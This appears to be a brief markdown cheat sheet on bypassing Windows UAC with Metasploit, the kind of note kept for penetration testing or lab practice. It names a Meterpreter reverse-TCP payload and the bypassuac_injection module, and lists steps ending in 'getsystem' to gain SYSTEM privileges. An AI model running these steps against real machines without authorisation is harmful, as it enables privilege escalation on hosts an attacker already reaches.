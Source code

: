 # Bypassing UAC using Metasploit
UAC Bypass: Memory Injection

A specific payload is required for bypassing UAC  
Payload: **windows/x64/meterpreter/reverse_tcp**  

The account you are logged into needs to be an admin  
1. Background meterpreter
2. Module -- **exploit/windows/local/bypassuac_injection**
3. if fails, ```set TARGET (press tab or options)```
4. Run ```getsystem``` to upgrade privileges
